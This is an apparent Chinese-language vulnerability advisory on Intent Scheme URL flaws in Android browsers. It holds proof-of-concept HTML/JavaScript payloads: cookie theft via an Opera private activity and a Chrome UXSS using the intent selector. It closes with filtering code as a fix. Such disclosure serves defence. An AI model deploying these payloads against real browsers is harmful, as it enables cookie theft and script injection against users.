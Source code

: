 ## Intent Scheme URL 漏洞
> YAQ御安全 发布于 2016-12-09

### 漏洞描述

如果浏览器支持Intent Scheme Uri语法，但对 intent 过滤不当，那么恶意用户可能通过浏览器js代码进行一些恶意行为，比如盗取cookie等。

### 影响范围

过滤不严的 browser

### 漏洞详情
#### 漏洞位置

browser 通过 Intent.parseUri 来解析 uri。
```java
Intent.parseUri()
```

通过Context.startActivityIfNeeded或者Context.startActivity发送intent

```java
startActivity()
```

#### 漏洞触发条件

1. 通过 Intent.parseUri() 解析网站传递的 uri。

    - 对应到smali中的特征：Landroid/content/Intent;->parseUri
    - 缺失过滤规则
    ```java
    Intent.addCategory("android.intent.category.BROWSABLE")
    Intent.setComponent(null)
    Intent.setSelector(null)
    ```

#### 漏洞原理

如果浏览器支持Intent Scheme URI语法，一般会分三个步骤进行处理：

1. 利用Intent.parseUri解析uri，获取原始的intent对象；
2. 对intent对象设置过滤规则，不同的浏览器有不同的策略，后面会详细介绍；
3. 通过Context.startActivityIfNeeded或者Context.startActivity发送intent；

其中步骤2起关键作用，过滤规则缺失或者存在缺陷都会导致Intent Schem URL攻击。

### poc/exp

#### 例子1 Opera mobile之cookie盗取
Opera上的intent过滤策略是完全缺失的，因此我们可以轻易调用Opera上的私有activity。比如下面这个攻击示例：

```html
<script>
location.href = “intent:#Intent;S.url=file:///data/data/com.opera.browser/app_opera/cookies;component=com.opera.browser/com.admarvel.android.ads.AdMarvelActivity;end”;
</script>
```

通过上面的脚本，我们可以直接调起AdMarvelActivity。AdMarvelActvity会从intent中获取url，并以HTML/JavaScript的方式解析cookies文件。

试想一下，如果我们预先构造一个恶意网站，并让用户通过浏览器访问。这时在恶意界面中，存在如下脚本：

```html
<script>
document.cookie = “x=<script>(javascript code)</scr” + “ipt>; path=/blah; expires=Tue, 01-Jan-2030 00:00:00 GMT”;
location.href = “intent:#Intent;S.url=file:///data/data/com.opera.browser/app_opera/cookies;component=com.opera.browser/com.admarvel.android.ads.AdMarvelActivity;end”;
</script>
```

当AdMarvelActivity解析cookies文件时，就会执行playload。

#### 例子2 Chrome之UXSS
Chrome的UXSS漏洞利用相对复杂。介绍之前，我们需要先了解一下关于Intent Selector的用法，Intent Selector机制提供一种main intent不匹配的情况下可以设置替补的方案。比如A是main intent, B是A的selector intent，当startActiviy时，系统发现A无法匹配则会尝试用B去匹配。

Chrome相比于Opera，在intent过滤的步骤中添加了安全策略，代码如下：

```java
Intent intent = Intent.parseUri(uri);
intent.addCategory(“android.intent.category.BROWSABLE”);
intent.setComponent(null);
context.startActivityIfNeeded(intent, -1);
```

从代码中，可以看到Chrome为了防御Intent Based攻击，做了不少限制，比如把category强置为”android.intent.category.BROWSABLE”，把component强置为null，相对之后比Opera强多了。然而，Chrome忽略了Intent Selector的用法，比如下面的用法:

> intent:#Intent;S.xxx=123; SEL;component=com.android.chrome/.xyz;end

留意其中的关键字“SEL”，其实就是设置了一个component为com.android.chrome/.xyz的 selector intent，这种用法导致chrome的防御措施形同虚设。最后看一下Chrome UXSS的PoC：

```html
<script>
//通过WebAppActivity0我们先打开一个攻击的站点
location.href = "intent:#Intent;S.webapp_url=http://victim.example.jp;l.webapp_id=0;SEL;compo nent=com.android.chrome/com.google.android.apps.chrome.webapps.WebappActivity0;end";
// 停留2s或者更长时间, 然后注入javascript payload
setTimeout(function() {
location.href = "intent:#Intent;S.webapp_url=javascript:(malicious javascript code);l.webapp_id=1;SEL;component=com.android.chrome/com.google.android.apps.chrome.webapps.WebappActivity0;end";
}, 2000); 
</script>
```

这里的关键点是WebappActivity0对new intent的处理方式上。

第一次打开站点，并完成加载。第二次则是直接把javascript payload注入到目标网页。这个漏洞存在于在所有低于v.30.0.1599.92的chrome版本，而新版本修改WebappActivity对new intent的处理方式，会创建new tab，这样就避免了javascript inject。

然而在新版中，依然没有屏避intent selector的使用，因此依然存在Chrome的私有组件和文件被读取的安全隐患。

### 漏洞修复建议

加入对 intent 的安全过滤：

```java
// convert intent scheme URL to intent object
Intent intent = Intent.parseUri(uri);
// forbid launching activities without BROWSABLE category
intent.addCategory("android.intent.category.BROWSABLE");
// forbid explicit call
intent.setComponent(null);
// forbid intent with selector intent
intent.setSelector(null);
// start the activity by the intent
context.startActivityIfNeeded(intent, -1);
```